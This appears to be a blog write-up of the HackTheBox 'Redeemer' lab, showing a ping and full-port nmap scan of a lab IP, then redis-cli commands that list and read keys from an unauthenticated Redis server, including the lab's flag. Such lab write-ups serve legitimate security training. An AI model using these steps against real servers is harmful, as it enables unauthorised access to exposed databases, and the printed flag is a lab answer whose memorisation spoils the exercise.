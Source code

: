 ```yaml
---
title: "HackTheBox - Redeemer"
date: 2023-12-25 07:52:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, redis, databases]
image:
    path: /assets/img/htb/Redeemer.png
    alt: Redeemer - HackTheBox
---
```


[**Redeemer**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **Redis (REmote DIctionary Server)**.

## Introduction

- Connect **Redeemer** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.150.140

PING 10.129.150.140 (10.129.150.140) 56(84) bytes of data.
64 bytes from 10.129.150.140: icmp_seq=1 ttl=63 time=234 ms
64 bytes from 10.129.150.140: icmp_seq=2 ttl=63 time=275 ms
64 bytes from 10.129.150.140: icmp_seq=3 ttl=63 time=296 ms
64 bytes from 10.129.150.140: icmp_seq=4 ttl=63 time=319 ms

--- 10.129.150.140 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 234.354/280.959/318.905/31.135 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]), `-p-` to scan all ports without exception, and `-Pn` to treat all hosts as online.

```bash
❯ nmap -sV -T4 -p- -Pn 10.129.150.140

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 08:23 WIB
Warning: 10.129.150.140 giving up on port because retransmission cap hit (6).
Nmap scan report for JSN.JaringanKU (10.129.150.140)
Host is up (0.21s latency).
Not shown: 64934 closed tcp ports (conn-refused), 600 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1458.17 seconds
```

You can see, the open port is 6379/tcp which is a Redis service. We can connect to the Redis service using `redis-cli`. If you don't have it, please download it first.

## Foothold

It's time to connect to the Redis service with `redis-cli`. If you don't know the command, use `--help` to display help. Use `-h` to connect to the destination host.

### Redis

To display all databases, we can use the command `keys *`, and to display the contents of the database use `get <key>`.

```bash
❯ redis-cli -h 10.129.150.140

10.129.150.140:6379> keys *
1) "stor"
2) "numb"
3) "flag"
4) "temp"

10.129.150.140:6379> get stor
"e80d635f95686148284526e1980740f8"

10.129.150.140:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"

10.129.150.140:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"

10.129.150.140:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```